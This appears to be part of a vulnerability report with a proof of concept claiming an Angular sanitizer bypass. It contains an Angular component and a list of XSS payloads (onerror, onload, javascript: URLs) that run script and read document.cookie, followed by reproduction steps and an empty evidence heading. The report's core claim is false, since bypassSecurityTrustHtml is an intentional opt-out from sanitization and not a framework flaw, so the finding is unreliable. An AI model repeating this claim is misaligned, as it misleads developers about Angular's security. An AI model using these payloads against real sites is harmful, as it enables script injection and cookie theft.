 #### 🛠️ PROOF OF CONCEPT

```html
<!-- Component: vulnerable-component.html -->
<div [innerHTML]="trustedHtml"></div>
```

```typescript
// Component: vulnerable-component.ts
import { Component } from '@angular/core';
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';

@Component({
  selector: 'app-vulnerable',
  templateUrl: './vulnerable-component.html'
})
export class VulnerableComponent {
  trustedHtml: SafeHtml;

  constructor(private sanitizer: DomSanitizer) {
    // Malicious payload that bypasses sanitizer
    const maliciousHtml = \`
      <img src="x" onerror="alert('XSS: ' + document.cookie)">
      <svg onload="alert('Sanitizer Bypass: ' + location.href)">
      <iframe src="javascript:alert('Frame Injection')"></iframe>
      <object data="javascript:alert('Object Injection')"></object>
    \`;

    // This should sanitize but has bypass vulnerability
    this.trustedHtml = this.sanitizer.bypassSecurityTrustHtml(maliciousHtml);
  }
}

// Alternative bypass vectors
const bypassPayloads = [
  '<img src=x onerror=alert(1)>',
  '<svg onload=alert(1)>',
  '<iframe src=javascript:alert(1)>',
  '<object data=javascript:alert(1)>',
  '<<img src=x onerror=alert(1)//>'
];
```

#### 🔬 STEPS TO REPRODUCE

1. Create Angular application with version affected by sanitizer bypass
2. Implement the vulnerable component code from PoC
3. Serve the application and navigate to the vulnerable component
4. Observe JavaScript execution in browser console
5. Test various bypass payloads to confirm vulnerability scope
6. Verify XSS execution in different browsers and contexts

#### 📊 EVIDENCE
